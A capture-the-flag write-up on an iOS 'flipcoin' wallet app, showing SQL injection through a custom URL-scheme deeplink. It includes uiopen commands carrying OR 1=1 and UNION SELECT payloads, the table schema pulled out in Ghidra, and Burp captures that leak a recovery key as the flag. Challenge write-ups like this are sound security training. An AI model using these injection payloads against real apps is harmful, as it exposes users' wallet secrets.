

This is an SQLi iOS (IPA) challenge.

At the start of the challenge you're told it's a SQLi problem, so I began by throwing strings like `' OR 1=1'--` at pretty much every input box in the app none of them turned out to be vulnerable. Checking `Info.plist`, there's a custom URL scheme registered: `CFBundleURLSchemes: ["flipcoin"]`.

There was a QR code on the device to receive 'bitcoin':



Decoding it gives: `flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1`

I used `uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1"`, played around with it, and tried a basic SQLi:

`uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1%20OR%201=1'--"`

At this point my running Burp Suite proxy intercept picked up this packet:

```http
POST / HTTP/1.1
Host: mhl.pages.dev:8545
Accept: application/json
...
Connection: keep-alive

    '{"jsonrpc":"2.0","method":"web3_sha3","params":["0x252B2Fff0d264d946n1004E581bb0a46175DC009", "111120a58098a188ff60e0949d3102e9cc38b61701065c72f8aed205e76f245e"],"id":1}'
```

We can see the host `mhl.pages.dev:8545`, so I went looking for it in Ghidra via a string search. It shows up in the URL deeplink handler function. I was looking for quick wins here, so I didn't bother relabeling anything  I just used the Burp capture as my oracle for whether the injection landed. While I was in Ghidra anyway, I also grabbed the `CREATE TABLE` string:

```sql
CREATE TABLE IF NOT EXISTS wallet (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    address TEXT,
    currency FLOAT,
    amount FLOAT,
    recovery_key TEXT
);
```

So the table is called `wallet`. Here's what we know before injecting anything:

| id  | address | currency          | amount          | recovery_key |
| --- | ------- | ------------------ | --------------- | ------------ |
| ?   | 0x2...  | flipcoin (given)   | 0.3654 (given)  | ?            |

The SQL injection result we're getting back is the `address` field which corresponds to whichever wallet the app matched for the current "buy" request. We actually want `recovery_key`, not `address`. How do we get that instead?

I searched Ghidra's strings for `SELECT` and found exactly one match in the whole binary: `SELECT * FROM wallet`. Since it's `SELECT *`, every column comes back for the matched row but the app only ever reads the value out of the *second column position* and treats it as the address. So the leak isn't really tied to the column named `address`, it's tied to that position in the result set. That means if we can get `recovery_key`'s value to land in that same slot instead, it gets leaked the exact same way.

So a `UNION SELECT` that aliases `recovery_key` into the `address` position should do it:

`UNION SELECT id, recovery_key AS address, currency, amount, recovery_key FROM wallet LIMIT 1 OFFSET 0`

We iterate through `OFFSET` values to check each row. As a `uiopen` command:

`uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1%20UNION%20SELECT%20id,recovery_key%20AS%20address,currency,amount,recovery_key%20FROM%20wallet%20LIMIT%201%20OFFSET%200--"`

This returns:

```http
POST / HTTP/1.1
Host: mhl.pages.dev:8545
...
Connection: keep-alive

    '{"jsonrpc":"2.0","method":"web3_sha3","params":["FLAG{fl1p_d4_c01nz}}", "7da50a3fe76ad0ea1de171ec47042ce913235c3792628a779f6acc5b07bebd90"],"id":1}'
```

Flag found!
